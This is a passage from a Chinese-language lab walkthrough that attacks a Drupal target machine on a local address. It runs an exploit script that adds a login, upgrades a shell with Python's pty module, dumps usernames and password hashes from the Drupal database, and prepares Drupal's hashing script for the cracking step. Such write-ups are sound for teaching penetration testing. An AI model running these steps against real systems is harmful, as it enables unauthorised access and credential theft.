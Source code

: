 ```bash
python 34992.py ‐t http://192.168.43.17/ ‐u swh ‐p Stan
```

![](https://z3.ax1x.com/2021/04/21/cb3jns.png)

![](https://z3.ax1x.com/2021/04/21/cb3x7q.png)

后续操作下同

## 思路2 数据库的账号密码登录

选择用获得数据库的账号密码登录数据库

要像使用服务器的命令一样去操控文件，就要进入 shell 用 python 的 pty 模块把 shell 升级为标准交互式 shell ，否则进入mysql之后shell会没有反应

> 出于安全考虑，linux要求用户从终端设备（tty）中输入密码，而不是标准输入（stdin）
> 输入的本质上是读取了键盘，而不是bash里面输入的字符，因此为了能够输入密码，必须模拟一个终端设备。python就有这样的功能

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

![](https://z3.ax1x.com/2021/04/21/cblSAK.png)

```mysql
show databases;
use drupaldb;
show tables;
select * from users;
select name,pass from users;
```

![](https://z3.ax1x.com/2021/04/21/cblptO.png)

这里的密码是经过 drupal 加密的

![](https://z3.ax1x.com/2021/04/21/cblEnI.png)

在 scripts 的文件夹中有用来算密码的脚本

![](https://z3.ax1x.com/2021/04/21/cblQ3Q.png)

![](https://z3.ax1x.com/2021/04/21/cblJH0.png)

因为靶机的环境原因会报错，大意是scripts目录下找不到 includes 中的某个文件

找了找发现 includes 文件和 scripts 文件在同一目录下，把includes目录即里面的内容拷贝到 scripts 目录下

```bash
cp -r includes scripts
```

![](https://z3.ax1x.com/2021/04/21/cblNNT.png)

然后成功执行脚本获得密码哈希值
